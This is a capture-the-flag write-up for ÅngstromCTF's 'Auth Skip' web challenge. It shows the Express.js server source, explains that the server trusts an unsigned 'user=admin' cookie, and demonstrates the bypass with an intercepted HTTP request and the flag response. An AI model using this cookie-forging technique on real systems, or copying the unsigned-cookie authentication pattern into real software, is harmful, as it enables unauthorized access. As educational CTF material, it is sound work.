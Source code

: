 ```yaml
---
Title: ÅngstromCTF
Date: 2022-05-05 00:00:00 +0000
categories: [Writeups, Ctf]
tags: [ctf, web, cookie, auth]
---
```


# Auth Skip

Goal is to do the legendary "Auth Skip", like in true speedrunner fashion, finding an exploit, conquering the leaderboard!

Given the source code, i began to look at the logic of the cookies used for authentication.

```javascript
const express = require("express");
const path = require("path");
const cookieParser = require("cookie-parser");

const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

app.post("/login", (req, res) => {
    if (
        req.body.username !== "admin" ||
        req.body.password !== Math.random().toString()
    ) {
        res.status(401).type("text/plain").send("incorrect login");
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
    }
});

app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}.`);
});
```

The vuln lies in the following lines:

```javascript
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
```

We can set our cookie to something like, `user=admin`  and we can ommit the password, as it doesn't require us to provide one.

Providing the username cookie, we are then redirected to the flag at "/"

```javascript
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
```

--- 

## Exploit: Legendary Auth Skip
In burp i intercepted :

```http
GET / HTTP/2
Host: auth-skip.web.actf.co
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Simply add the cookie to the request

```http
Cookie: user=admin
```

et voilà !

```http
HTTP/2 200 OK
Date: Wed, 04 May 2022 14:44:26 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 54
X-Powered-By: Express
Etag: W/"36-QSBEGde8h39PljsFBY/epRs/oqo"
Strict-Transport-Security: max-age=15724800; includeSubDomains

actf{passwordless_authentication_is_the_new_hip_thing}
```

### Aut viam inveniam aut faciam    
